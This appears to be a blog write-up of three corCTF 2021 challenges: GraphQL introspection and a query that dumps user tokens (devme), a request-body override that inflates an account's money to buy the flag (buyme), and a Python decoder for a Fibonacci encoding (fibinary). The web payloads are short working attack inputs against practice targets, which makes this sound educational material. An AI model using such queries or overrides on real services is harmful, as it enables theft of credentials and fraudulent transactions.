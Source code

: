 ```yaml
---
title: corCTF 2021
tags: [write-up, ctf, corctf]
style: fill
color: success
description: Write-up in the corCTF 2021.
---
```


![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/website.png)

## web/devme

Challenge link [https://devme.be.ax/](https://devme.be.ax/)

### Challenge

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/devme/statement.png)

[Source website and devme.html here](https://github.com/nh4ttruong/nh4ttruong.github.io/blob/main/sources/cor-ctf-2021/devme/devme_files.zip)

### Solution

Using devtool that not give us anything special. Look up on the website, I see the form which allow me to POST something to server:

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/devme/sendEmail.png)

I try registing by (test@gmail.com) and using Burp to see what happen is going on:

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/devme/burp.png)

When I register, the website redirect to "/graphql" and post a query so that sever create new user. And I realize that **graphql** is the problem. It can help me sending a query or retriving the database by the right query.

After studying about graphql, I try posting the below query to see the behind structure of its "graphql":

```graphql
{
	"query": "query IntrospectionQuery {
		__schema {
			queryType {
			name
			}
			types {
				name
				fields {
					name
				}
			}
		}
	}"
}
```

![Result](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/devme/structure.png)

As you can see, it shows me some properties such as query type, type, name, field,.... This is the graphql structure of the website.

My mission is became easily. I think that I need to the data of User to get the admin data and try cheating.
```graphql
{
	"query": "query Query {
		users {
			username
			token
		}
	}"
}
```

![Result](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/devme/users.png)

I have the admin token ```<code>"username":"admin","token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b</code>``` and I will write a query to POST to the website so that get the flag!

### Flag

![flag](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/devme/flag.png)

## web/buyme

### Challenge

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/buyme/state.png)

Web challenge: https://buyme.be.ax/

Source buyme.tar.xz [chall folder](https://github.com/nh4ttruong/nh4ttruong.github.io/blob/main/sources/cor-ctf-2021/buyme/chall.rar)

### Solution

I try buying some flag to hope that some magic is happen =)))). Let's solve it :3

After check the source code, I had some comments:
- Password was hashed, so that injection is not a method.
- Cookie is a unique for each account. It include "username" + "randomBytes", so that we can't cheat it :3
- By file file api.js, we know the structure of user object.

From that, I think I can override the data when I request something =))) (fact: the last method which i can use :3).

In the source code, author uses Map() to set/get for object. I think I need to write something to request author to give me flag =))).

In the route /buy, we have ```db.buyFlag({ user: req.user, ...req.body });``` and I think that there is the place where we can override the data on *req.body* because the challenge will set the default user infomation before the system executes at /buy when user buys the flag.

Finally, I also register a real account to solve the challenge with ```username: aaabbb```. I use [Hack bar extension](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc) to POST by the data below:
```graphql
{
	"flag": "corCTF",
    "user":
	{
        "user":"aaabbb",
        "money":1e+300,
        "flags":[]
    }
}
```

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/buyme/solve.png)

### Flag
>**corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!}**
>
## crypto/fibinary

### Challenge

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/fibinary/state.png)

The challenge has two source code: [enc.py](https://github.com/nh4ttruong/nh4ttruong.github.io/blob/main/sources/cor-ctf-2021/fibinary/enc.py) and [flag.enc](cor-ctf-2021/fibinary/flag.enc)

### Solution

The source code [enc.py](https://github.com/nh4ttruong/nh4ttruong.github.io/blob/main/sources/cor-ctf-2021/fibinary/enc.py):
```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

def c2f(c):
	n = ord(c)
	b = ''
	for i in range(10, -1, -1):
		if n >= fib[i]:
			n -= fib[i]
			b += '1'
		else:
			b += '0'
	return b

flag = open('flag.txt', 'r').read()
enc = ''
for c in flag:
	enc += c2f(c) + ' '
with open('flag.enc', 'w') as f:
	f.write(enc.strip())
```
The flag.enc:
```10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100```

The challenge is relate to *Fibonacci* array.

c2f(c) function is responsible for encryption. It converts each flag's letter to the binary array (len = 10).

So that I was write a noob script to decrypt the flag.enc ^^

```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

#fib = [1, 1, 2, 3, 5, 8, 13, 21, 34, 55, 89]
enc = "10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100"
arr = enc.split()
_list = []

def convert(c):
    asc = 0
    for i in range (0, 10, 1):
        if (c[i] == "1"):
            asc = asc + fib[int(10-i)]
        else:
            continue
    return chr(asc)

for i in range(0, len(arr), 1):    
    _list.append(convert(arr[i]))

print("".join(_list))
```

![Result](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/sources/cor-ctf-2021/fibinary/flag.png)

### Flag
>**corCTF{b4s3_4nd_f1bp!113d}**
